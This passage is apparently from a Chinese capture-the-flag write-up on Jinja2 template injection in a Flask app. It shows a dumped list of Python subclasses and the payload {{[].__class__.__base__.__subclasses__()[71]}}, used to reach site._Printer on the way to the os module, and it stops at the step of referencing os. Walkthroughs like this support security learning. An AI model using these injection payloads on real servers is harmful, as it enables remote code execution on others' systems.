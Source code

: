 <class 'email.LazyImporter'>, <class 'calendar.Calendar'>, <class 'werkzeug.urls.Href'>, <class 'werkzeug.utils.HTMLBuilder'>, <class 'werkzeug.wrappers.accept.AcceptMixin'>, <class 'werkzeug.wrappers.auth.AuthorizationMixin'>, <class 'werkzeug.wrappers.auth.WWWAuthenticateMixin'>, <class 'werkzeug.wsgi.ClosingIterator'>, <class 'werkzeug.wsgi.FileWrapper'>, <class 'werkzeug.wsgi._RangeWrapper'>, <class 'werkzeug.middleware.dispatcher.DispatcherMiddleware'>, <class 'werkzeug.middleware.http_proxy.ProxyMiddleware'>, <class 'werkzeug.middleware.shared_data.SharedDataMiddleware'>, <class 'werkzeug.formparser.FormDataParser'>, <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.wrappers.base_request.BaseRequest'>, <class 'werkzeug.wrappers.base_response.BaseResponse'>, <class 'werkzeug.wrappers.common_descriptors.CommonRequestDescriptorsMixin'>, <class 'werkzeug.wrappers.common_descriptors.CommonResponseDescriptorsMixin'>, <class 'werkzeug.wrappers.etag.ETagRequestMixin'>, <class 'werkzeug.wrappers.etag.ETagResponseMixin'>, <class 'werkzeug.wrappers.user_agent.UserAgentMixin'>, <class 'werkzeug.wrappers.request.StreamOnlyMixin'>, <class 'werkzeug.wrappers.response.ResponseStream'>, <class 'werkzeug.wrappers.response.ResponseStreamMixin'>, <class 'werkzeug.exceptions.Aborter'>, <class 'uuid.UUID'>, <type 'CArgObject'>, <type '_ctypes.CThunkObject'>, <type '_ctypes._CData'>, <type '_ctypes.CField'>, <type '_ctypes.DictRemover'>, <class 'ctypes.CDLL'>, <class 'ctypes.LibraryLoader'>, <type 'select.epoll'>, <class 'subprocess.Popen'>, <class 'itsdangerous._json._CompactJSON'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous.serializer.Serializer'>, <class 'itsdangerous.url_safe.URLSafeSerializerMixin'>, <class 'flask._compat._DeprecatedBool'>, <class 'werkzeug.local.Local'>, <class 'werkzeug.local.LocalStack'>, <class 'werkzeug.local.LocalManager'>, <class 'werkzeug.local.LocalProxy'>, <class 'ast.NodeVisitor'>, <class 'difflib.HtmlDiff'>, <class 'werkzeug.routing.RuleFactory'>, <class 'werkzeug.routing.RuleTemplate'>, <class 'werkzeug.routing.BaseConverter'>, <class 'werkzeug.routing.Map'>, <class 'werkzeug.routing.MapAdapter'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class 'flask.helpers.locked_cached_property'>, <class 'flask.helpers._PackageBoundObject'>, <class 'flask.cli.DispatchingApp'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'werkzeug.wrappers.json._JSONModule'>, <class 'werkzeug.wrappers.json.JSONMixin'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'werkzeug.serving.WSGIRequestHandler'>, <class 'jinja2.ext.Extension'>, <class 'jinja2.ext._CommentFinder'>, <class 'werkzeug.serving._SSLContext'>, <class 'werkzeug.serving.BaseWSGIServer'>, <type 'unicodedata.UCD'>, <type 'array.array'>, <type 'method-wrapper'>, <class 'jinja2.debug.TracebackFrameProxy'>, <class 'jinja2.debug.ProcessedTraceback'>, <class 'werkzeug.test._TestCookieHeaders'>, <class 'werkzeug.test._TestCookieResponse'>, <class 'werkzeug.test.EnvironBuilder'>, <class 'werkzeug.test.Client'>] not found

好多可以引用的。

服务器回复了很长的一个列表，我就不列举了，从其中可以找到我们想要的`os`所在的`site._Printer`类，它在列表的第七十二位。(数组从0开始)

验证一下

输入`{{[].__class__.__base__.__subclasses__()[71]}}`

回显：

	URL http://220.249.52.133:44238/<class 'site._Printer'> not found

#### 引用os
